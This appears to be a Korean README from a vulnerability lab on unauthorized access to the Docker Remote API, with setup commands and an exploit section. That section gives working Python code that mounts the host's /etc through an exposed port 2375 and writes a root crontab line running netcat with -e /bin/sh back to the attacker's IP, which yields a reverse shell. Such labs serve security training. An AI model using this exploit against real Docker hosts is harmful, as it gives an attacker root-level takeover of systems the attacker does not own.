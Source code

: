 # 도커 데몬 API 무단 액세스 공격

[中文版本(중국어판)](README.zh-cn.md )

참조 링크:

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## 취약한 환경

취약한 환경을 구축하고 실행하려면 다음 명령을 입력합니다:

```
docker compose build
docker compose up -d
```

## 익스플로잇

컨테이너를 시작하고 호스트 '/etc' 폴더를 컨테이너에 마운트하면 모든 파일에 대한 읽기/쓰기 권한을 갖게 됩니다.

명령어를 crontab 구성 파일에 넣어 셸을 획득할 수 있습니다
```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

명령어를 crontab에 주입하여 리버스 셸 획득:

![](1.png)
